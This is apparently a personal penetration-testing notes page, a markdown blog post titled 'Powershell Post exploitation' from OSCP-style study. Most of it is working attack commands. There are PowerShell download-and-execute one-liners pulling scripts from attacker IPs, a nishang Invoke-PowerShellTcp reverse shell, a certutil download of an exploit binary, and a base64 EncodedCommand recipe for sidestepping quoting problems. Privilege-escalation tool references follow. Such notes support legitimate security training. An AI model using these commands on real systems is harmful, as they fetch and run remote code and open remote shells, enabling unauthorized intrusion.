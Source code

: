 ```yaml
---
# Documentation: https://sourcethemes.com/academic/docs/managing-content/

title: "Powershell Post exploitation"
subtitle: ""
summary: "Some post exploitation PS notes"
authors: []
tags: []
categories: []
date: 2020-08-28T22:30:35+02:00
lastmod: 2020-08-28T22:30:35+02:00
featured: false
draft: false

# Featured image
# To use, add an image named `featured.jpg/png` to your page's folder.
# Focal points: Smart, Center, TopLeft, Top, TopRight, Left, Right, BottomLeft, Bottom, BottomRight.
image:
  caption: ""
  focal_point: ""
  preview_only: false

# Projects (optional).
#   Associate this post with one or more of your projects.
#   Simply enter your project's folder or file name without extension.
#   E.g. `projects = ["internal-project"]` references `content/project/deep-learning/index.md`.
#   Otherwise, set `projects = []`.
projects: []
---
```



## PowerShell Reverse Shell
 https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

Note:
From a 32-bit PowerShell session, to launch a 64-bit PowerShell session, use:
```
C:\Windows\SysNative\WindowsPowerShell\v1.0\PowerShell.exe
```
From a 64-bit PowerShell session, to launch a 32-bit PowerShell session, use:
```
C:\Windows\SysWOW64\WindowsPowerShell\v1.0\PowerShell.exe
```
## PS oneliner nishang
```cp /mnt/hgfs/OSCP/tools/privesc/win/nishang/Shells/Invoke-PowerShellTcp.ps1 nishang.ps1
powershell.exe -NoProfile -ExecutionPolicy unrestricted -Command IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.169:3001/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.15.169 -Port 3002
IEX(New-Object Net.WebClient).downloadString('http://192.168.19.37/rev.ps1')

````
## from within shell
echo iex(new-object net.webclient).downloadstring('http://192.168.19.37/MS16-135.ps1') | powershell -nop -
IEX(New-Object Net.WebClient).downloadString('http://192.168.19.37/powerup.ps1')

## Other PS commands
```
powershell "IEX(New-Object Net.WebClient).downloadString('http://192.168.19.37/nishang.ps1')
C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.19.37/Invoke-PowerShellTcp.ps1'
certutil.exe -urlcache -split -f "http://192.168.19.37/cve.exe" c:\Users\offsec\Documents\2.exe
```
### If " " gives issues -->  
```echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.28/sherlock.ps1')" | iconv --to-code UTF-16LE | base64 -w 0

"PowerShell -EncodedCommand base64 string"
```

## Windows exploit suggester
```python windows-exploit-suggester.py --update
Feed it w/ your systeminfo dump python windows-exploit-suggester.py --database 2017-11-15-mssb.xls --systeminfo ../systeminfo.txt
```

## PS enumeration

Show full path of files:
```
gci -recurse . | select fullname
```


## Helpfull resources

https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/  
Checklist <https://github.com/netbiosX/Checklists/blob/master/Windows-Privilege-Escalation.md>


